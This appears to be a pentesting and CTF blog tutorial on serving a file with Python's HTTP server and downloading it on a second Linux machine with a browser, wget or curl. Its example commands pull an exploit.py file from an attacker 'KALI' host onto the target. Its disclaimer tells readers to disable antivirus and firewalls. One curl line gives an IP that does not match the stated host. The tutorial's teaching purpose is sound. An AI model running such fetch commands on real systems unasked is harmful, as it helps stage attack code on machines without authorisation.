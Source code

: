 ```yaml
---
layout: post
title: 'File Transfers - Part 1: Linux To Linux'
date: '2022-10-22 17:57:48 +0100'
categories: [Tutorial, OSCP]
tags: [linux, oscp, python, file-transfer, pentesting, code, tutorial, ctf]
---
```


This is part of a series of tutorials on file transfer methods for pentesting and CTF scenarios.

_Disclaimer: It is necessary to disable any Anti-Virus (Windows Defender etc.) and also potentially any Firewalls
on the Windows system for these transfers to work. It is highly recommended to do this in a safe, virtualised environment that is not connected to any public network or the Internet. You're responsible for the security of your own systems. These tutorials are for educational purposes only._

# Linux to Linux File Transfer

In this tutorial we will cover three methods of transferring files from one Linux system to another.
We will serve a file on one Linux system using the **Python HTTP Server**, and download them on the second system with:

- A web browser
- `wget`
- `curl`

## Scenario

- We have two Linux systems connected to the same local network

KALI - 192.168.56.103<br>
UBUNTU - 192.168.56.102

- We have a file `exploit.py` that we want to transfer from KALI to UBUNTU.

- The file starts off on our KALI machine in `/tmp/transfers`.
As we can see, the `/tmp/transfers` directory on UBUNTU is currently empty.

![ft1.png](/assets/img/ft1.png)
<br>
![ft2.png](/assets/img/ft2.png)

In order to transfer a file FROM a Linux machine, we need to make it accessible to a remote machine. 
There are a number of ways we can do this. However, for this tutorial we will be using the **Python HTTP Server**.

## Serving Files with Python HTTP Server

The setup is a very simple one-liner. The HTTP Server will serve all the files in the directory from 
which we execute the command. So the first step is to `cd` to the directory where the file(s) you want
to share reside.

**To start the HTTP server:**

### Python 3.x

`python3 -m http.server`

![http1](/assets/img/http1.png)

### Python 2.x

`python2 -m SimpleHTTPServer`

![http2](/assets/img/http2.png) 
<br>
The `-m` option in the above commands runs a Python module as a script. 
As we can see from the screenshots above, the default port for the server is 8000. 
We can change that to a port of our choosing by adding it to the end of the command.

`python3 -m http.server 80`

Now we are ready to transfer our `exploit.py` file.

## Transferring Files

On our KALI system we start the HTTP server from the directory containing `exploit.py`.

![http1](/assets/img/http1.png)

From our UBUNTU system, we have a number of ways to transfer the file.

### 1. Web Browser

We browse to the file in a web browser, making sure to include the right port in the URL, click on the file we want, and it will download to our system.

![browse-file](/assets/img/browsefile.png)




### 2. Wget

While there is no guarantee, it is common to find Linux systems will this tool installed. A GET request is a simple one-liner.
Here we have used the `-O` option, to output a file to a specified location.

`wget http://192.168.56.103:8000/exploit.py -O /tmp/transfers/exploit.py`

![wget](/assets/img/wget.png)
<br>
Looking back at our KALI system, we can see the GET request made by **wget**
![request1](/assets/img/request1.png)

### 3. Curl

Again, there is no guarantee that this tool will be present on a Linux system, but it is widely used, and if present on a system it also provides an easy method of performing a GET request. Here we have used the `-o` option to output the file to a specified location.

`curl http://192.168.56.130:8000/exploit.py -o /tmp/transfers/exploit.py`

![curl](/assets/img/curl.png)
<br>
Again, looking back at our KALI system, we can see the second GET request, this time made by **curl**
![request2](/assets/img/request2.png)

## Explore Your Tools

Both **wget** and **curl** have a large number of options and can be used to perform complex tasks.
It is well worth getting to know both of these tools better. The best way to do this is to check out
their **man pages** on Linux, and search for more info online.

Some good places to start would be finding out how to:

- Transfer multiple files with one command
- Perform POST requests

## Conclusion

I hope you found this tutorial helpful, thanks for reading!
